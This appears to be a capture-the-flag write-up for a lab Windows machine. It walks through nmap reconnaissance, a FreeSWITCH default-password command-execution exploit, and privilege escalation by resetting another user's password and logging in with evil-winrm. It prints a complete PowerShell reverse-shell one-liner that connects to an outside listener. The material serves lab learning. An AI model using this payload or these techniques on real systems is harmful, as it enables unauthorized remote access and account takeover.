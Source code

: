 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)

## Recon-Enumeration  
nmap -A -Pn 10.2.0.17  
![alt text](./img/networked01.PNG?raw=true)  
  
![alt text](./img/networked02.PNG?raw=true)  
  
## Exploit  
searchsploit free switch  
![alt text](./img/networked03.PNG?raw=true)  
  
searchsploit -x windows/remote/47799.txt  
![alt text](./img/networked04.PNG?raw=true)  

Ok, so just create a file with the name “freeswitch-exploit.py” with the above code:  
![alt text](./img/networked05.PNG?raw=true)  
  
Now let’s run the exploit  
![alt text](./img/networked06.PNG?raw=true)  
  
Great, so we are the user mario, let’s try other commands  
./freeswitch-exploit.py 10.2.0.17 "powershell -c Get-Location"  
![alt text](./img/networked07.PNG?raw=true)  
  
So we can execute powershell commands. Let’s try something sneaky :D  
![alt text](./img/networked22.PNG?raw=true)  
Damm.... Since we failed using the exploit to get a reverse shell…let's study it  

It connect to the target on port 8021, then send as credential the default password of FreeSwitch and give 2 new lines (\n\n = 2 enters)  
![alt text](./img/networked08.PNG?raw=true)  
  
So i tried this with netcat  
![alt text](./img/networked09.PNG?raw=true)  
  
Success...after he send the command with “api system COMMAND”  
![alt text](./img/networked10.PNG?raw=true)  
  
So let’s try this too  
![alt text](./img/networked11.PNG?raw=true)  
  
Great, now we can try to get a reverse shell with a powershell script:  
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.2.0.4',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS' + (pwd) + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"  

Start a netcat listener on port 1234 and let’s try to run this script  
![alt text](./img/networked12.PNG?raw=true)  
  
![alt text](./img/networked13.PNG?raw=true)  
HABEMUS SHELL \o/  

Just go to Mario’s desktop and grab the first flag  
![alt text](./img/networked15.PNG?raw=true)  
  
While enumeration we found another user “networked”, and we can found the root.txt on his desktop.  
However we can’t read it  
![alt text](./img/networked18.PNG?raw=true)  

## Privesc  
So let’s get some information to elevate our privileges  
whoami /priv  
![alt text](./img/networked14.PNG?raw=true)  
  
systeminfo  
![alt text](./img/networked16.PNG?raw=true)  
  
net user  
net user mario  
![alt text](./img/networked17.PNG?raw=true)  
 
Ok, so we have authorization to change user password. Let’s try with the user “networked”  
net user networked 123456  
![alt text](./img/networked19.PNG?raw=true)  
 

Well, since we have port 5985 open we can use evil-winrm to connect to it with our new credential  
evil-winrm -i 10.2.0.17 -u networked -p 123456  
![alt text](./img/networked20.PNG?raw=true)  
  
Great, now just grab the flag  
![alt text](./img/networked21.PNG?raw=true)  
 
